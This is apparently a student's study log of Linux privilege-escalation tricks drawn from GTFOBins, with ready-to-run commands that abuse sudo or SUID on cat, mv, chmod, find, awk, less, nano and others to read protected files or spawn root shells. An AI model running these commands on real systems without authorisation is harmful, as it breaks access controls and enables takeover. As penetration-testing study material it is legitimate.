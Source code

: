 # Day-19: Escalating Privileges with Common Commands

On this day, we learned various methods to gain root access without knowing the root password by leveraging common commands and their configurations.

[The website to get crack sudo](https://gtfobins.github.io/gtfobins/nano/)

### Here are some of the techniques we covered:

### 1. `sudo`
**Description:**
If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

**Command:**
```sh
sudo sudo /bin/sh
```

### 2. `cat`
**Description:**
The `cat` command reads data from files and can be used to do privileged reads or disclose files outside a restricted file system. If it has the SUID bit set, it can escalate privileges.

**Commands:**
- File Read:
  ```sh
  LFILE=file_to_read
  cat "$LFILE"
  ```
- SUID:
  ```sh
  sudo install -m =xs $(which cat) .
  
  LFILE=file_to_read
  ./cat "$LFILE"
  ```
- Sudo:
  ```sh
  LFILE=file_to_read
  sudo cat "$LFILE"
  ```

### 3. `mv`
**Description:**
The `mv` command can move files from restricted file systems or with elevated privileges. If it has the SUID bit set, it can escalate privileges.

**Commands:**
- SUID:
  ```sh
  sudo install -m =xs $(which mv) .
  
  LFILE=file_to_write
  TF=$(mktemp)
  echo "DATA" > $TF
  ./mv $TF $LFILE
  ```
- Sudo:
  ```sh
  LFILE=file_to_write
  TF=$(mktemp)
  echo "DATA" > $TF
  sudo mv $TF $LFILE
  ```

### 4. `chmod`
**Description:**
The `chmod` command can change file permissions with elevated privileges. If it has the SUID bit set, it can escalate privileges.

**Commands:**
- SUID:
  ```sh
  sudo install -m =xs $(which chmod) .
  
  LFILE=file_to_change
  ./chmod 6777 $LFILE
  ```
- Sudo:
  ```sh
  LFILE=file_to_change
  sudo chmod 6777 $LFILE
  ```

### 5. `install`
**Description:**
The `install` command can change permissions and execute a copy of the file with elevated privileges. If it has the SUID bit set, it can escalate privileges.

**Commands:**
- SUID:
  ```sh
  sudo install -m =xs $(which install) .
  
  LFILE=file_to_change
  TF=$(mktemp)
  ./install -m 6777 $LFILE $TF
  ```
- Sudo:
  ```sh
  LFILE=file_to_change
  TF=$(mktemp)
  sudo install -m 6777 $LFILE $TF
  ```

### 6. `msfconsole`
**Description:**
The `msfconsole` can spawn a Ruby interpreter to break out of restricted environments and escalate privileges.

**Commands:**
- Shell:
  ```sh
  sudo msfconsole
  msf6 > irb
  >> system("/bin/sh")
  ```
- Sudo:
  ```sh
  sudo msfconsole
  msf6 > irb
  >> system("/bin/sh")
  ```

### 7. `nano`
**Description:**
The `nano` text editor can be exploited to spawn a shell with elevated privileges if allowed to run as superuser.

**Commands:**
- Sudo:
  ```sh
  sudo nano
  ```
  - In nano, press `Ctrl+R` then `Ctrl+X`, then type:
  ```sh
  reset; sh 1>&0 2>&0
  ```

### 8. `less`
**Description:**
The `less` command can be used to read files with elevated privileges and can also spawn a shell.

**Commands:**
- Sudo:
  ```sh
  sudo less /etc/passwd
  ```
  - In less, type:
  ```sh
  !/bin/sh
  ```

### 9. `find`
**Description:**
The `find` command can be used to search for files with elevated privileges and can be abused to spawn a shell.

**Commands:**
- SUID:
  ```sh
  sudo install -m =xs $(which find) .
  ./find . -exec /bin/sh \;
  ```
- Sudo:
  ```sh
  sudo find . -exec /bin/sh \;
  ```

### 10. `awk`
**Description:**
The `awk` command is a powerful text-processing tool that can be exploited to spawn a shell with elevated privileges.

**Commands:**
- SUID:
  ```sh
  sudo install -m =xs $(which awk) .
  ./awk 'BEGIN {system("/bin/sh")}'
  ```
- Sudo:
  ```sh
  sudo awk 'BEGIN {system("/bin/sh")}'
  ```

---

This guide showcases various ways to escalate privileges using common commands. Each method should be used responsibly and only on systems where you have explicit permission to conduct security testing.

